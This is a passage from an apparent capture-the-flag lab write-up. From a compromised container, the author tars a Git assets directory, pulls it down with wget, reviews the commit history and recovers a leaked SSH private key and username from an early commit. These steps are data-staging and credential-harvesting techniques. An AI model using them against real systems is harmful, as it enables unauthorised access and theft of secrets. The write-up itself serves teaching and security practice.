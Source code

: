 ![Web 3000 Index](web_3000_index.webp){: width="1200" height="600"}

And visiting `http://172.16.1.2:5000/`, we get an "under construction" message.

![Web 5000 Index](web_5000_index.webp){: width="1200" height="600"}

Since we did not get anything from the web servers yet, let's go back to the **Git** repository we found in the `/app/bfc_thehubuat/assets/`.

Due to `git` not being installed in the container, let's archive the `assets` directory and transfer it to our machine.

```console
9e0b831d786c:/app/bfc_thehubuat# tar -czf assets.tar.gz assets
9e0b831d786c:/app/bfc_thehubuat# mv assets.tar.gz assets
```

```console
$ wget http://thehub-uat.bestfestivalcompany.thm:3000/assets.tar.gz
$ tar -xzf assets.tar.gz
$ cd assets
```

Checking the **Git** logs, we see three commits made:

```console
$ git log
commit 2db2f203e26ab1ce4e43d58576f56bf8f6567d8c (HEAD -> main, origin/main)
Author: bfc_admin <bfc_admin@bestfestivalcompany.thm>
Date:   Tue Dec 17 01:01:09 2024 +0800

    Uploaded asset requirements

commit 0b8f682a01ca115073d8f25c20c24d25e6f28c13
Author: bfc_admin <bfc_admin@bestfestivalcompany.thm>
Date:   Tue Dec 17 00:58:22 2024 +0800

    Fixed issues on the backup directory

commit aab6d70d2e79f0a99d960008bfa818d1e0fa3a60
Author: bfc_admin <bfc_admin@bestfestivalcompany.thm>
Date:   Tue Dec 17 00:55:46 2024 +0800

    Squashed commit of UAT v1
```

Checking the first commit, we find a private key at `assets/backups/backup.key` and a username as `git` from the public key.

```console
$ git checkout aab6d70d2e79f0a99d960008bfa818d1e0fa3a60
$ ls -la assets/backups/backup.key
-rw-rw-r-- 1 kali kali 3369 Dec 26 17:03 assets/backups/backup.key

$ cat assets/backups/backup.key.pub
ssh-rsa AAAA...3CfQ== git
```
